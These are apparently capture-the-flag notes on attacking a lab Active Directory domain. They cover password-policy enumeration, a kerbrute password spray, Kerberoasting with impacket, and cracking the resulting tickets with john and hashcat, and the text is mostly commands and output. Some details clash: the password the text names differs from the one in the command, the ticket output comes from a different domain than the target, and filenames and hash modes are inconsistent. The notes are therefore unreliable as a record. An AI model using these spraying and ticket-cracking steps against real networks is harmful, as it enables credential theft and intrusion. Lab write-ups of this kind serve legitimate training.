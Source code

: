 # Password policy enumeration
can we brute?

```$ python enum_policy.py support.htb 'support\support' 'Ironside437pleasure401Watchful'```
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray
Trying 'Aa123456' against all domain users.

```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside437pleasure401Watchful'```

```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
# Kerberoasting
SPN set on a user? we can ask the KDC for a TGS that contains their password and crack it offline 

```$ python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip 10.10.11.174 'support.htb/support:Ironside437pleasure401Watchful'```

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
$ john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 19600 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```

